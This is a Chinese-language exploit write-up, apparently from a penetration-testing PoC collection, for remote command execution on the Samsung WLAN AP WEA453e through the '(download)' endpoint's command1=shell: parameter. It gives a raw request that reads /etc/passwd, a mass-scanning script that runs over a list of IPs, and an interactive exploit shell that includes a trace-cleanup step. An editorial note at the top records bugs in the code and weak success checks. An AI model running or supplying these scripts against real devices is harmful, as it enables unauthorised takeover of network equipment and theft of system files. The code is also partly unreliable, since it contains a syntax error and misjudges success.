

# Samsung WLAN-AP-WEA453e 命令执行资料

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Samsung WLAN AP WEA453e
- 本文讨论：download路径command1=shell任意命令
- 版本、权限与配置前提：未给认证/固件，设备为AP而非笼统路由器
- 资料类型：命令接口PoC/脚本；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- EXP末行exp(192.168.10.1,80)IP无引号是Python语法错误；target拼接缺协议/斜杠且port参数未使用
- Check脚本发送ls却检测root，判据不可靠；正文cat请求没有完整HTTP头体分隔
- EXP以200认定清理成功不充分，写/tmp持久文件及默认HTTP构造需说明
- 表格列数不足、无H1/原始公告/CVE
- 历史校订意见（原始示例按归档保留，下述改写不再应用于原始示例）：“exp(192.168.10.1,80)”改为“exp("192.168.10.1", 80)”；“self.target=target”改为“self.target = "http://{}:{}/".format(target, port)”；HTTP 报文围栏改为 http；补齐文章标题。以上意见置于原始示例之外，不覆盖原文证据；未做运行验证
- 原示例末行 IPv4 字面量存在 Python 语法疑问，self.target 未使用 port 构造完整 URL；这里只记录校订意见，原代码按归档保留。Check.py 的 ls/root 判据及 Clean 的 HTTP 200 判据仍不足确证；两个脚本都可能写入 /tmp 文件，需核实回收。

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 固件、匿名条件及底层接口语义待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|WLAN-AP-WEA453e RCE三星路由器远程命令执行漏洞|2020-8|未知|https://www.Samsung.com| |三星WLAN-AP-WEA453e路由器|

路由器首页


### 漏洞原理

利用burp构造特殊的请求

```http
    POST /(download)/tmp/a.txt HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```


### POC批量检测代码如下
```python
#filename: Check.py
#Usage: python3 Check.py ip.txt
import requests
import sys
import datetime

def CheckVuln(host):
    vurl = host+'/(download)/tmp/a.txt'
    headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36','Connection': 'close'}
    data = {'command1':'shell:ls|dd of=/tmp/a.txt'}
    try:
        req = requests.post(url=vurl,data=data,verify=False,headers=headers,timeout=1)
        
        if req.status_code ==200 and 'root' in req.text:
            T = ('[*]-'+host+'-----Vulnerable!')
            print(T)
            OutPut(T)
        else:
            T = ('[-]-'+host+'-----Not Vulnnerable')
            print(T)
            OutPut(T)

    except:
        T = host+'[-]-----Network Error'
        print(T)
        OutPut(T)

def OutPut(F):
    time =  datetime.datetime.now().strftime('%Y-%m-%d')
    #print(time)
    f = open(time+'.txt','a')
    f.write(F + '\n') 
    f.close()
            
def GetUrl(path):
    with open(path,'r',encoding='utf-8') as f:
        for i in f:
            if i.strip() != '':
                oldh = i.strip() 
                #print(oldh)
                host = 'http://'+oldh
                CheckVuln(host)
               
            else:
                print(path+'Empty File')

if len(sys.argv) != 2:
    print('-------------Usage:python3 Check.py ip.txt----------------- ')
    sys.exit()

path = sys.argv[1]

GetUrl(path)

```
### EXP
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests
import sys
import os
from urllib3.exceptions import InsecureRequestWarning

class exp:
    def Checking(self):
        try:
            Url = self.target + "(download)/tmp/hello.txt"
            CkData = "command1=shell:cat /etc/passwd| dd of=/tmp/hello.txt"
            response = requests.post(url = Url,data = CkData,verify = False,timeout = 20)
            if(response.status_code == 200 and 'root:' in response.text):
                return True
            else:
                return False
        except Exception as e:
            #print("checking")
            print("[-] Server Error!")

    def Exploit(self):
        Url = self.target + "(download)/tmp/hello.txt"
        while True:
            try:
                command = input("# ")
                if(command == 'exit'):
                    self.Clean()
                    sys.exit()
                if(command == 'cls'):
                    os.system("cls")
                    continue
                data = "command1=shell:" + command + "| dd of=/tmp/hello.txt"
                response = requests.post(url = Url,data = data,verify = False,timeout = 20)
                if(response.text == None):
                    print("[!] Server reply nothing")
                else:
                    print(response.text)
            except KeyboardInterrupt:
                self.Clean()
                exit()
            except Exception as e:
                print("[-] Server not suport this command")

    def Clean(self):
        Url = self.target + "(download)/tmp/hello.txt"
        try:
            CleanData = "command1=shell:busybox rm -f /tmp/hello.txt"
            response = requests.post(url = Url,data = CleanData,verify = False,timeout = 10)

            if(response.status_code == 200):
                print("[+] Clean target successfully!")
                sys.exit()
            else:
                print("[-] Clean Failed!")
        except Exception as e:
            print("[-] Server error!")

    def __init__(self,target,port):
        self.target=target
        requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

        if(len(sys.argv) == 3):
            module = sys.argv[2]
            if(module == 'clean'):
                self.Clean()
            else:
                print("[-] module error!")

        while self.Checking() is True:
            self.Exploit()
            
exp(192.168.10.1,80)
```


---

> 来源：Mr-xn/Penetration_Testing_POC
